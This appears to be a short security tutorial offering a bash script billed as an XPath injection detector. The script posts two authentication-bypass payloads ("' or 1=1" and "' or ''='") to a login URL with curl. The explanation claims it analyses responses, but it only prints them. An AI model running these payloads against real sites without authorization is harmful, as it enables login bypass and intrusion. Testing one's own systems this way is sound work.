 **Bash Script:**
```bash
#!/bin/bash
# This is a comment

# Function to perform XPath Injection detection
detect_xpath_injection() {
    echo "Detecting XPath Injection vulnerabilities..."
    # Define XPath Injection payloads
    payloads=("' or 1=1" "' or ''='")

    # Iterate over payloads and inject them into vulnerable parameters
    for payload in "${payloads[@]}"; do
        echo "Testing payload: $payload"
        curl -s -d "username=$payload&password=test" -X POST "$1"
    done
}

# Main function
main() {
    echo "XPath Injection Detection Tool"
    echo "------------------------------"

    # Validate input
    if [ $# -ne 1 ]; then
        echo "Usage: $0 <target_url>"
        exit 1
    fi

    # Perform XPath Injection detection
    detect_xpath_injection "$1"
}

# Call main function with target URL as argument
main "$@"
```

**Explanation:**
- The script defines a function `detect_xpath_injection` to perform XPath Injection detection.
- It defines a list of XPath Injection payloads representing malicious XPath expressions.
- The `main` function serves as the entry point, validating input and invoking the XPath Injection detection function.
- When executed with a target URL as an argument, the script injects XPath Injection payloads into vulnerable parameters and analyzes the responses for potential vulnerabilities.

#### Usage:
Save the script to a file (e.g., `xpath_injection_detector.sh`) and make it executable (`chmod +x xpath_injection_detector.sh`). Then, run the script with the URL of the target server or web application as an argument:

```bash
./xpath_injection_detector.sh http://example.com/login
```
